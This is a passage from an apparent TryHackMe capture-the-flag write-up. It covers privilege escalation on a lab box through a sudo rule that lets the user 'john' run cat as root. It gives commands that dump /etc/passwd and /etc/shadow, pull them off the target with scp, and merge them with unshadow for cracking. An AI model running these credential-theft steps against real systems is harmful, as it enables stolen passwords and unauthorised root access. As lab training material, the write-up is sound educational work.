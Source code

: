 ## Gaining Access

We investigated various avenues but ultimately SSH'ing in as `john` with the `id_rsa` SSH key, and the password for that file discovered by John the Ripper was the way in.

### Unprivileged Access

Now that we're SSH'ed in as `john` we can see the `user.txt` flag needed for the TryHackMe room.

It we run a `sudo -l`, we can see we can run `cat` as `sudo`!

## Privilege Escalation

When we run a `sudo -l`, we see:

```bash
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can of course do something like:

```bash
sudo cat /root/root.txt
```

to get the root flag and finish the room, but we haven't actually rooted the box yet!

### Cracking the `/etc/passwd`

Since we will have access to see the contents of `/etc/passwd` and the `/etc/shadow`, then we might see if we can crack the passwords for the accounts on that box. First, on the target machine exfiltrate the contents of those files and put them in a common place:

#### Target Machine:
```bash
sudo cat /etc/passwd > /tmp/passwd
sudo cat /etc/shadow > /tmp/shadow
```

#### Your Workstation:
Then on your workstation, use SCP for example to go get those files from the target machine:

```bash
scp -i ./id_rsa.txt john@$TARGET:/tmp/passwd ./
scp -i ./id_rsa.txt john@$TARGET:/tmp/shadow ./
```

You can now merge `passwd` and `shadow` and make them one file, like it used to be in the olden days of Unix, with `unshadow`:

```bash
unshadow ./passwd ./shadow > ./combined.txt
```
